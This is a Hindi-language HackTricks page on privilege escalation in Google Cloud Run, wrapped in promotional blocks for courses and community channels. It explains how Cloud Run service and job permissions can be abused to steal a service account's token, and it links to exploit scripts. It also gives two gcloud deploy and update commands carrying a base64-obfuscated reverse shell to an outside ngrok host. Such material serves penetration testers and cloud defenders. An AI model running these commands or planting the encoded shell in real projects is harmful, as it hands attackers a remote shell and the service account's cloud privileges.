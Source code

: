 # GCP - Run Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

_cloudfunctions.functions.create_ विधि के समान, यह विधि एक **नई Cloud Run Service** बनाती है जो, जब इन्वोक की जाती है, **Service Account के** एक्सेस टोकन को वापस करती है जो सर्वर के मेटाडेटा API को एक्सेस करके प्राप्त किया जाता है। एक Cloud Run सर्विस डिप्लॉय की जाएगी और टोकन प्राप्त करने के लिए इसे एक अनुरोध किया जा सकता है।

इस विधि के लिए निम्नलिखित **अनुमतियां आवश्यक हैं**:

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **या** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

इस विधि में एक शामिल Docker इमेज का उपयोग होता है जिसे बनाया और होस्ट किया जाना चाहिए ताकि सही ढंग से शोषण किया जा सके। इमेज को इस तरह डिजाइन किया गया है कि Cloud Run को HTTP अनुरोध किए जाने पर Service Account के एक्सेस टोकन के साथ प्रतिक्रिया करने के लिए कहा जाता है।

इस विधि के लिए शोषण स्क्रिप्ट [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) पाई जा सकती है और Docker इमेज [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage) पाई जा सकती है।

किसी कारण से, `gcloud run deploy` का उपयोग करते समय केवल सर्विस बनाने के बजाय **इसे अपडेट अनुमति की आवश्यकता होती है**। [**यहां एक उदाहरण देखें**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

पिछले जैसा लेकिन एक सर्विस को अपडेट करना
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

अपने आप को पिछले अनुमतियाँ दें।

### `run.jobs.create`,`run.jobs.run`,(`run.jobs.get`)

एक जॉब लॉन्च करें जिसमें रिवर्स शेल हो ताकि कमांड में दिखाए गए सर्विस अकाउंट की जानकारी चुराई जा सके। आप यहाँ एक [**exploit यहाँ पा सकते हैं**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh)।

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

पिछले जैसा ही यह संभव है कि **एक जॉब को अपडेट करें और SA को अपडेट करें**, **कमांड** और **इसे निष्पादित करें**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

अपने आप को पिछली अनुमतियाँ दें।

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
